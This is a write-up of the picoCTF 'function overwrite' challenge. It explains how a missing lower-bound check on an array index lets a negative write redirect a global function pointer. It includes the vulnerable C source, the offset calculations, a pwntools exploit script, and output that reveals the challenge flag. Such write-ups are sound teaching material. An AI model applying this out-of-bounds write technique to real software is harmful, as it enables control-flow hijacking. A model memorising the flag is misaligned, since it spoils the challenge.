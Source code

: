 # FUNCTION OVERWRITE

## OVERVIEW & IDEA

- This challenge gives us 2 files, one is 32-bit binary ELF file, and other is its source file.

- Below is binary file's informations and checksec of it.

```
λ ~/function_overwrite/ file vuln

vuln: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=b75d1c294605b83e31f819abdf410d4dcd8c7762, for GNU/Linux 3.2.0, not stripped

λ ~/function_overwrite/ checksec --file=vuln

[*] '~/function_overwrite/vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

- Let's check the source file. We have 2 global variable, one is function pointer `check` that is reference to `hard_checker` function and an integer array `fun` has 10 element. Inside `vuln()`, we can see the flow of program. The program take input into `char story[128]` and take another 2 input for 2 variable `num1` and `num2`, That 2 variable use for `fun[num1] += num2;` `if (num1 < 10)`. Then the program does `check(story, strlen(story))` that is the same `hard_checker(story, strlen(story));`

```c
void (*check)(char*, size_t) = hard_checker;
int fun[10] = {0};

void vuln()
{
  char story[128];
  int num1, num2;

  printf("Tell me a story and then I'll tell you if you're a 1337 >> ");
  scanf("%127s", story);
  printf("On a totally unrelated note, give me two numbers. Keep the first one less than 10.\n");
  scanf("%d %d", &num1, &num2);

  if (num1 < 10)
  {
    fun[num1] += num2;
  }

  check(story, strlen(story));
}
```

- Diving into `hard_checker()`. This function just print the flag if the condition is true.

```c
void hard_checker(char *story, size_t len)
{
  if (calculate_story_score(story, len) == 13371337)
  {
    char buf[FLAGSIZE] = {0};
    FILE *f = fopen("flag.txt", "r");
    if (f == NULL)
    {
      printf("%s %s", "Please create 'flag.txt' in this directory with your",
                      "own debugging flag.\n");
      exit(0);
    }

    fgets(buf, FLAGSIZE, f); // size bound read
    printf("You're 13371337. Here's the flag.\n");
    printf("%s\n", buf);
  }
  else
  {
    printf("You've failed this class.");
  }
}
```

- Check the another function `calculate_story_score()`. This function return the sum of ascii code of all element in string pointed by `story`.

```c
int calculate_story_score(char *story, size_t len)
{
  int score = 0;
  for (size_t i = 0; i < len; i++)
  {
    score += story[i];
  }

  return score;
}
```

- So we just make sure that sum of ascii code of all element in string we send to program equal `13371337`. 

- But, `13371337` is too large for a string just has 128 character, and one character has max ascii code is `127` (because we use `signed char`).

- We have another function `easy_checker()`, this function do the same as `hard_checker()` but the value to check is just `1337`, which is possible to make the if jump to true branch and print flag.

- We can do that because this code in `vuln()`.

```c
if (num1 < 10)
{
    fun[num1] += num2;
}
```

- It checks the upper boundary, but is has no lower boundary. So we can use it to modifide the lower memory content that has lower address.

![img](/picoCTF/function_overwrite/assets/address_check_fun.png)

- The program has no PIE, so I can check the address of `check` and `fun` with IDA, we can see that the address of `check` is lower than `fun`. It's possbible to feed the `story` that sastifies the `if` in `easy_checker` then modifide the `check` points to `easy_checker` instead of `hard_checker` with `num1` and `num2`.

## DETAILS

- I use string to feed the `story` is

```python
story = "a"*13 + "L"
```

```
pwndbg> x/2i easy_checker
   0x80492fc <easy_checker>:    endbr32
   0x8049300 <easy_checker+4>:  push   ebp

pwndbg> x/2i hard_checker
   0x8049436 <hard_checker>:    endbr32
   0x804943a <hard_checker+4>:  push   ebp
```

- `num1` will be `(0x0804c040 - 0x0804c080)/4 = -16` because we are working with `int*` pointer. And `num2` will be `0x080492fc - 0x08049436  = -314`.

## EXPLOIT

```python
#! /usr/bin/python2
# filename: exp.py

from pwn import *

p = remote("saturn.picoctf.net", 56080)

story = "a"*13 + "L"
num1 = "-16"
num2 = "-314"

p.sendline(story)
p.sendline(num1)
p.sendline(num2)

p.interactive()
```

## RESULT

```
λ ~/function_overwrite/ python2 exp.py
[+] Opening connection to saturn.picoctf.net on port 56080: Done
[*] Switching to interactive mode
Tell me a story and then I'll tell you if you're a 1337 >> On a totally unrelated note, give me two numbers. Keep the first one less than 10.
You're 1337. Here's the flag.
picoCTF{0v3rwrit1ng_P01nt3rs_698c2a26}
[*] Got EOF while reading in interactive
$
```